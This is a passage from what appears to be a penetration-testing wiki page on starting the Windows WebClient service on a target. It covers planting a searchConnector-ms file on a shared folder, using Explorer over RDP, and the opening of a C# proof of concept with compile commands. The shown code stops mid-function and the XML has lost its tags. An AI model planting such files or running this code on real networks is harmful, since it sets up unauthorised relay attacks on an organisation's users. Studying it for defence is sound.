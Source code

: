
=== searchConnector-ms

With a [searchConnector-ms](https://docs.microsoft.com/en-us/windows/win32/search/search-sconn-desc-schema-entry) file uploaded to widely used share within the organisation. Each time a user browses the folder, the WebClient service will start transparently.

```xml
xml version="1.0" encoding="UTF-8"?

Microsoft Outlook
false
true

{91475FE5-586B-4EBA-8D75-D17434B8CDF6}


https://whatever/


```


=== Explorer

By opening an interactive session with the target (e.g. RDP), opening the Explorer, and type something in the address bar.

=== C# PoC to enable WebClient Programmatically

According to [tiraniddo's research](https://www.tiraniddo.dev/2015/03/starting-webclient-service.html), the webclient service is registered with a service trigger, meaning it can be started automatically in response to a specific system event.
A simple way to start the service in an unprivileged session is by compiling and executing the following [C# PoC](https://gist.github.com/klezVirus/af004842a73779e1d03d47e041115797) created by [klezVirus](https://gist.github.com/klezVirus).
```c#
using System.Runtime.InteropServices;
using System;

/* 
 * Simple C# PoC to enable WebClient Service Programmatically
 * Based on the C++ version from @tirannido (James Forshaw)
 * Twitter: https://twitter.com/tiraniddo
 * URL: https://www.tiraniddo.dev/2015/03/starting-webclient-service.html
 * 
 * Compile with:
 *   - 32-bit: C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe .\EtwStartWebClient.cs /unsafe
 *   - 64-bit: C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe .\EtwStartWebClient.cs /unsafe
 */

namespace EtwStartWebClient
{
    class EtwStartWebClient
    {
        static void Main(string[] args)
        {
            if (StartWebClientService()) {
                Console.WriteLine("[+] WebClient Service started successfully");
            }
            else {
                Console.WriteLine("[-] Failed to start WebClient Service");
            }
        }

        static bool StartWebClientService()
        {
```